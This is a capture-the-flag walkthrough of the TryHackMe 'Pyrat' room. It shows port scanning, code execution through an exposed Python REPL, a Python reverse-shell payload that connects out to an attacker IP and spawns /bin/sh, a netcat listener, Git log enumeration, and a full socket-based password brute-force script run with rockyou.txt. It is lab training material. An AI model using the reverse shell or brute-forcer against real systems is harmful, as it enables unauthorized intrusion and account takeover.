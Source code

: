 # 🐍 TryHackMe: Pyrat – Full Walkthrough (redacted)

## 📝 Room Overview

- **Theme** → Exploiting a Python REPL service & Git repository leaks
- **Difficulty** → Medium
- **Skills exercised** → Enumeration, reverse shells, Git forensics, password brute-forcing
- **Platform** → TryHackMe

---

## ⚡ Methodology

### 🔍 1. Reconnaissance

Performed a full port scan to identify services:

```bash
nmap -sC -sV -p- 10.10.34.172

```

📸 *Screenshot of Nmap Scan*

![Screenshot 2025-09-16 120634.png](Screenshot_2025-09-16_120634.png)

---

### 🐚 2. Initial Foothold (Python REPL)

The HTTP server exposed a Python REPL environment. I tested execution with:

```python

print("Hello World")
Hello World

shell
$whoami
```

This confirmed code execution as `www-data`.

📸 *Screenshot of REPL shell*

![Screenshot 2025-09-16 122703.png](Screenshot_2025-09-16_122703.png)

---

### 🎯 3. Reverse Shell

Payload used to gain a reverse shell:

```python
import socket,os
s=socket.socket()
s.connect(("10.10.0.81",4444))  #  Your/AttackBox IP
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh")

# Used in Python REPL

```

Listener setup:

```bash
nc -lvnp 4444

```

📸 *Reverse shell established*

![Screenshot 2025-09-16 123941.png](Screenshot_2025-09-16_123941.png)

---

### 📂 4. Git Enumeration

Inside `/opt/dev/.git/logs/refs/` I examined the commit history:

```bash
cd heads
ls -la
cat master

```

This revealed a commit with the following message:

```
commit (initial): Added shell endpoint
Author: Jose Mario <josemlwdf@github.com>

```

 📸*Screenshot of Git log*

![Screenshot 2025-09-16 125545.png](Screenshot_2025-09-16_125545.png)

🔑 **Analysis:**

- The commit message explicitly mentioned **“Added shell endpoint.”**
- This was a strong hint that the application exposed hidden functionality (likely via commands/endpoints like `shell`).
- From this, I inferred that there could be other developer-added endpoints (e.g., `admin`).

---

### 🔍 Takeaway

By reading the Git commit logs, I discovered **keywords used as commands in the custom Python REPL service**:

- `shell` → spawned a system shell.
- `admin` → prompted for a password (which I later brute-forced).

---

### 🔑 5. Admin Endpoint Discovery

Endpoints tested:

- `shell` → Spawns system shell
- `admin` → Prompts for password

Other endpoints (`backup`, `help`, `login`, etc.) returned *undefined*.

📸 *Screenshot of Admin endpoint* 

![Screenshot 2025-09-16 130123.png](Screenshot_2025-09-16_130123.png)

---

### 💣 6. Password Brute-Force

I wrote a fuzzing script (`fuzzy_admin.py`) to brute-force the `admin` endpoint with **rockyou.txt**.

```python
import socket

# Configuration
target_ip = "10.10.34.172"   # <-- change to your target IP
target_port = 8000
password_wordlist = "/usr/share/wordlists/rockyou.txt"  # <-- path to your wordlist

def connect_and_send_password(password):
    try:
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((target_ip, target_port))
        client_socket.sendall(b'admin\n')

        response = client_socket.recv(1024).decode(errors="ignore")

        if "Password" in response:
            print(f"[*] Trying password: {password}")
            client_socket.sendall(password.encode() + b"\n")

            response = client_socket.recv(1024).decode(errors="ignore")

            # success condition
            if "success" in response.lower() or "shell" in response.lower() or "admin" in response.lower():
                print(f"[+] Correct password found: {password}")
                print(f"[+] Server response: {response}")
                return True

        return False

    except Exception as e:
        print(f"[!] Error: {e}")
        return False

    finally:
        client_socket.close()

def fuzz_passwords():
    with open(password_wordlist, "r", encoding="latin-1") as file:
        for password in file:
            password = password.strip()
            if connect_and_send_password(password):
                return password   # stop once found
    return None

if __name__ == "__main__":
    found = fuzz_passwords()
    if found:
        print(f"\n[+] Final result: admin:{found}")
    else:
        print("[-] No valid password found.")

```

✅ The password was found → ******

📸 *Fuzzing output screenshot*

![Screenshot 2025-09-16 131405.png](Screenshot_2025-09-16_131405.png)

---

### 👑 7. Root Access

Connected as `admin`:

```bash
nc <TARGET_IP> 8000

```

Input:

```
admin
password: ******

```

Spawned shell:

```
shell

```

Verified root:

```bash
whoami
pwd
ls -la
cat /root/root.txt

```

📸 *Root flag screenshot*

![Screenshot 2025-09-16 132230.png](Screenshot_2025-09-16_132230.png)

---

## 🎓 Lessons Learned

- Python REPL exposure = critical risk.
- Git commit history often leaks credentials or endpoints.
- Weak passwords still exist in real-world systems.

---

## 🚩 Flags

- **User Flag** → `REDACTED`
- **Root Flag** → `REDACTED`